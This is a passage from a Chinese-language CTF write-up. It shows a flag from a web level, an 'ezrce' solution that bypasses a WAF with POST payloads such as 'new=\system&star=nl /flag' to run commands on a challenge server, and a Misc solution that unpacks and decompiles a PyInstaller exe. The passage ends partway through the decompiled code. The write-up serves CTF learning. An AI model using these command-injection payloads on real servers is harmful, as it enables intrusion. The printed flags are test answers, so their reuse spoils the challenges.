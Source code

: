 下一关`level4545Five.php`

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262828746-71117a63-579b-4f26-98fa-e0f9de7c46f7.png)

函数放在控制台执行即可，下一关`zzpufinish.php`

拿到flag：`flag{8ffe65a6-6cc2-49bf-ab11-e480bbc236a8}`

### ezrce
这道题的最后一个waf比较麻烦

\(函数名) 在php里是声明为全局函数的意思

还有一个解法是用readgzfile函数(不展示了)

```plain
http://27.25.151.26:31030/?num=11111

POST
new=\system&star=ls
new=\system&star=ls /
new=\system&star=nl /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262829772-0aca10b5-fec6-4c22-97b4-7f7b68abe188.png)





## Misc
### Terminal Hacker
#### 第一种解法，
按照渗透的流程思路

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262830470-b4cfdcc5-82b8-46bb-8e1b-cc43cce9eb4f.png)

按照命令执行就行

#### 第二种解法
就是PY逆向思路

https://github.com/extremecoders-re/pyinstxtractor

先把 exe，解包一下

```plain
python pyinstxtractor.py .\HackMe.exe
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262830983-f6496abe-87b0-46b2-8988-53a0851ae0fc.png)

得到解包后的文件夹

Py 反编译一下 1.pyc

```plain
#!/usr/bin/env python
visit https://tool.lu/pyc/ for more information
Version: Python 3.10
import sys
flag = 'flag{Cysay_terminal_game_hacked_successfully}'
def print_intro():
    print('欢迎来到《终端入侵者》！')
    print('你是一名受雇的渗透专家，接到任务潜入一个神秘组织的服务器。')
    print('你已进入该组织的外围系统，下一步需要靠你的技术深入核心...')
    print('输入 help 查看可用命令。')
    print('你的任务是：在完成任务之前，不能直接获取隐藏的 flag。')
def show_help():
```